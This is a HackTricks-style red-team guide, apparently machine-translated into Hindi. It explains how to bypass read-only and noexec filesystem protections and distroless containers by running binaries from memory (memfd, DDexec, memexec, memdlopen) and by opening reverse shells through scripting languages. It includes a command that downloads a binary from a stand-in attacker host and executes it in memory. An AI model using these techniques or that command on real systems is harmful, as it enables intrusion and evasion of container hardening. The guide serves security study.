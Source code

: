 # FS सुरक्षा को उमड़ना: केवल पढ़ने योग्य / कोई निषेषक्रिया / Distroless

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अहैकेबल को हैक करना चाहते हैं - **हम नियुक्ति कर रहे हैं!** (_चुस्त पोलिश लिखने और बोलने की आवश्यकता है_).

{% embed url="https://www.stmcyber.com/careers" %}

## वीडियो

निम्नलिखित वीडियो में आप इस पृष्ठ में उल्लिखित तकनीकों को अधिक गहराई से समझ सकते हैं:

* [**DEF CON 31 - गुप्तचरता और टालने के लिए लिनक्स मेमोरी मेनिपुलेशन का अन्वेषण**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng और इन-मेमोरी dlopen() के साथ गुप्त प्रवेश - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## पढ़ने योग्य / कोई निषेषक्रिया स्थिति

लिनक्स मशीनों को **केवल पढ़ने योग्य (ro) फ़ाइल सिस्टम सुरक्षा** के साथ माउंट करना अधिक सामान्य हो रहा है, विशेष रूप से कंटेनर में। इसका कारण है कि ro फ़ाइल सिस्टम के साथ कंटेनर चलाना **`readOnlyRootFilesystem: true`** को `securitycontext` में सेट करना इतना आसान है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, यदि फ़ाइल सिस्टम को ro के रूप में माउंट किया गया है, तो **`/dev/shm`** अभी भी लिखने योग्य होगा, इसलिए यह झूठ है कि हम डिस्क में कुछ भी लिख नहीं सकते। हालांकि, इस फ़ोल्डर को **कोई निषेषक्रिया सुरक्षा के साथ माउंट किया जाएगा**, इसलिए यदि आप यहाँ एक बाइनरी डाउनलोड करते हैं तो आप उसे **क्रियान्वित नहीं कर पाएंगे**।

{% hint style="warning" %}
रेड टीम की दृष्टि से, यह **जटिल बना देता है कि** उन बाइनरी को डाउनलोड और क्रियान्वित करना **कठिन हो जाता है** जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर या `kubectl` जैसे जांचकर्ता)।
{% endhint %}

## सबसे आसान उमड़न: स्क्रिप्ट

ध्यान दें कि मैंने बाइनरी का उल्लेख किया, आप **किसी भी स्क्रिप्ट को क्रियान्वित कर सकते हैं** जब तक अंतर्वादक मशीन में हो, जैसे एक **शैल स्क्रिप्ट** यदि `sh` मौजूद है या एक **पायथन स्क्रिप्ट** यदि `पायथन` स्थापित है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी उपकरणों को चलाने के लिए जो आपको चलाने की आवश्यकता हो सकती है, इसके लिए केवल इतना ही काफी नहीं है।

## मेमोरी उमड़न

यदि आप एक बाइनरी को क्रियान्वित करना चाहते हैं लेकिन फ़ाइल सिस्टम इसे नहीं करने दे रहा है, तो इसे **मेमोरी से क्रियान्वित करना** सबसे अच्छा तरीका है, क्योंकि **सुरक्षा उसमें लागू नहीं होती**।

### FD + exec सिस्कॉल उमड़न

यदि आपके पास मशीन में कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे **पायथन**, **पर्ल**, या **रूबी**, तो आप मेमोरी से क्रियान्वित करने के लिए बाइनरी डाउनलोड कर सकते हैं, इसे एक मेमोरी फ़ाइल डिस्क्रिप्टर में स्टोर कर सकते हैं (`create_memfd` सिस्कॉल), जिसे उन सुरक्षा उपायों द्वारा संरक्षित नहीं किया जाएगा और फिर एक **`exec` सिस्कॉल** को कॉल करके **fd को फ़ाइल के रूप में क्रियान्वित करने** के लिए।

इसके लिए आप आसानी से परियोजना [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) का उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह उसे **बाइनरी को डीकोड और डीकंप्रेस करने के निर्देशों के साथ उपयुक्त भाषा में स्क्रिप्ट उत्पन्न करेगा** जिसमें बाइनरी को **b64 एन्कोड करके संक्षिप्त किया गया है** और `create_memfd` सिस्कॉल को कॉल करके एक **fd** में बनाए गए फ़ाइल में स्टोर करने के निर्देश होंगे और इसे चलाने के लिए **exec** सिस्कॉल को कॉल करेगा।

{% hint style="warning" %}
यह अन्य स्क्रिप्टिंग भाषाओं में काम नहीं करता क्योंकि उनके पास कोई **स्क्रिप्ट से रॉ सिस्कॉल को कॉल करने का डिफ़ॉल्ट तरीका** नहीं है, इसलिए `create_memfd` को कॉल करने के लिए **मेमोरी fd** बनाना संभव नहीं है।

इसके अतिरिक्त, `/dev/shm` में एक **नियमित fd** बनाना काम नहीं करेगा, क्योंकि आपको इसे चलाने की अनुमति नहीं होगी क्योंकि **कोई निषेषक्रिया सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको अपने खुद के प्रक्रिया की मेमोरी को **अपने आप ओवरराइट करके संशोधित करने** की अनुमति देती है।

इसलिए, प्रक्रिया द्वारा क्रियान्वित किया जा रहा असेंबली कोड को नियंत्रित करके, आप एक **शैलकोड** लिख सकते हैं और प्रक्रिया को **किसी भी विचित्र कोड** को क्रियान्वित करने के लिए "परिवर्तित" कर सकते हैं।

{% hint style="success" %}
**DDexec / EverythingExec** आपको अपने खुद के **शैलकोड** या **किसी भी बाइनरी** को **मेमोरी** से लोड और **क्रियान्वित** करने की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का प्राकृतिक अगला कदम है। यह एक **DDexec शैलकोड डेमनाइज्ड** है, इसलिए हर बार जब आप **एक विभिन्न बाइनरी चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की आवश्यकता नहीं है, आप सिर्फ मेमेक्सेक शैलकोड को DDexec तकनीक के माध्यम से चला सकते हैं और फिर **इस डेमन के साथ संवाद करके नए बाइनरी लोड और चलाने के लिए**।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) में **मेमेक्सेक का उपयोग कैसे करें** के एक उदाहरण पा सकते हैं।

### Memdlopen

DDexec के एक समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक बाइनरी लोड करने के लिए एक **आसान तरीका** प्रदान करता है जिन्हें बाद में चलाने के लिए। यह यहाँ तक कि विभिन्न आवश्यकताओं वाले बाइनरी लोड करने की अनुमति देता है।

## Distroless Bypass

### Distroless क्या है

Distroless कंटेनर में केवल **एक विशिष्ट एप्लिकेशन या सेवा को चलाने के लिए आवश्यकता होने वाले न्यूनतम घटक** होते हैं, जैसे पुस्तकालय और रनटाइम निर्भरताएँ, लेकिन एक पैकेज प्रबंधक, शैल या सिस्टम उपयोगिताएं जैसे बड़े घटकों को छोड़ देते हैं।

Distroless कंटेनरों का लक्ष्य कंटेनरों के **हमले की सतह को कम करना** है अनावश्यक घटकों को हटाकर और उन विकल्पों की संख्या को कम करके जिनका शोध किया जा सकता है।

### रिवर्स शैल

एक डिस्ट्रोलेस कंटेनर में आपको **शायद ही `sh` या `bash`** मिलेगा जिससे आप एक साधारण शैल प्राप्त कर सकें। आप `ls`, `whoami`, `id` जैसी बाइनरी भी नहीं पाएंगे... जो आप सामान्यत: एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **रिवर्स शैल** या **सिस्टम की जांच** जैसा काम करने में सक्षम नहीं होंगे।
{% endhint %}

हालांकि, यदि संक्रमित कंटेनर में उदाहरण के लिए एक फ्लास्क वेब चल रहा है, तो पायथन स्थापित है, और इसलिए आप एक **पायथन रिवर्स शैल** प्राप्त कर सकते हैं। यदि यह नोड चल रहा है, तो आप एक नोड रिवर्स शैल प्राप्त कर सकते हैं, और इसी तरह से अधिकांश किसी भी **स्क्रिप्टिंग भाषा** के साथ।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप **भाषा क्षमताओं का उपयोग करके सिस्टम की जांच** कर सकते हैं।
{% endhint %}

यदि **कोई `read-only/no-exec`** सुरक्षा उपाय नहीं है तो आप अपने रिवर्स शैल का दुरुपयोग करके **फाइल सिस्टम में अपने बाइनरी** लिख सकते हैं और उन्हें **चला** सकते हैं।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनरों में ये सुरक्षा उपाय आम तौर पर मौजूद होंगे, लेकिन आप **पिछले मेमोरी निष्पादन तकनीकों का उपयोग करके उन्हें अनदेखा कर सकते हैं**।
{% endhint %}

आप [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) में कुछ RCE सुरक्षा गड़बड़ियों का शोध करने और स्क्रिप्टिंग भाषाओं से **रिवर्स शैल प्राप्त करने** और बाइनरी को मेमोरी से चलाने के लिए **उदाहरण** पा सकते हैं।
